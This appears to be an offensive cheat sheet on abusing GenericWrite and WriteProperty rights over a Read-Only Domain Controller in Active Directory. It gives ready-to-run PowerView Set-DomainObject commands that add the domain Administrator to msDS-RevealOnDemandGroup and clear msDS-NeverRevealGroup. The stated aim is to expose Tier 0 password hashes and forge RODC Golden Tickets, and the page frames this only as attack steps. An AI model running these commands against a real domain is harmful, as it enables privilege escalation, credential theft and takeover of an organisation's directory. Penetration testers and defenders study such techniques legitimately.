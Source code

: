 # DACL Attacks on a Read-Only Domain Controller (RODC)

## 1) GenericWrite

Obtain local admin access

Change the managedBy attribute value and add a controlled user. He will automatically gain admin rights.

Retrieve Tiers 0 account's NT hashes
 
It is possible to modify the msDS-NeverRevealGroup and msDS-RevealOnDemandGroup lists on the RODC to allow Tiers 0 accounts to authenticate, and then forge RODC Golden Tickets for them to access other parts of the AD.

##### Add a domain admin account to the msDS-RevealOnDemandGroup attribute

    Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

##### If needed, remove the admin from the msDS-NeverRevealGroup attribute

    Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'

## 2) WriteProperty

WriteProperty on the msDS-NeverRevealGroup and msDS-RevealOnDemandGroup lists is sufficient to modify them. Obtain the krbtgt_XXXXX key is still needed to forge RODC Golden Ticket.

##### Add a domain admin account to the msDS-RevealOnDemandGroup attribute

    Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

##### If needed, remove the admin from the msDS-NeverRevealGroup attribute

    Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
